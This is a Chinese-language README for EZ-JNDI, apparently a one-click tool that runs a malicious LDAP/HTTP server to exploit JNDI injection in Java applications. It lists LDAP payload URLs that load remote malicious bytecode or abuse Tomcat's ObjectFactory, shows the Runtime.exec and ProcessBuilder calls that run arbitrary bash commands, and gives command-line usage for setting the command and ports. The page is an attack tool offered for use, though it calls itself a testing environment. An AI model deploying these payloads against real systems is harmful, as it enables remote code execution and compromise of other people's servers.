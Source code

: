# EZ-JNDI
一键启动JNDI测试/利用环境。

LDAP Payload：
```text
ldap://{IP}:{Port}/Foo --> 利用远程CodeBase加载恶意字节码执行命令
ldap://{IP}:{Port}/Tom --> 使用Tomcat本地ObjectFactory执行命令
```
执行命令使用的方式是（目前支持Linux环境），无需对命令进行base64编码：
```java
Runtime.getRuntime().exec(new String[]{"/bin/bash", "-c", "{command}"});
new ProcessBuilder(new String[]{"/bin/bash", "-c", "{command}").start();
```

LDAP默认端口1099，HTTP默认端口8080，可以使用命令行参数配置端口：
```text
java -jar ezjndi1.0.jar --help
java -jar ezjndi1.0.jar -lp={port1} -hp={port2} -c="{command}"
```

![img.png](img/img.png)

![img.png](img/img2.png)

TODO:
- 直接返回序列化数据
- Windows环境下利用cmd执行命令（`cmd /c {command}`）
---
️备注：由于项目依赖使用了jdk自带的`rt.jar`，其默认不在JVM的 classpath 中，所以如果想修改源代码编译自己的版本，在编译前请修改`pom.xml`，将`<bootclasspath>`标签的值改为自己的`JAVA_HOMOE`：
```xml
<plugin>
    <groupId>org.apache.maven.plugins</groupId>
    <artifactId>maven-compiler-plugin</artifactId>
    <version>3.8.1</version>
    <configuration>
        <compilerArguments>
            <verbose />
            <bootclasspath>${java.home}/lib/rt.jar${path.separator}${java.home}/lib/jce.jar${path.separator}${java.home}/lib/jsse.jar</bootclasspath>
        </compilerArguments>
    </configuration>
</plugin>
```
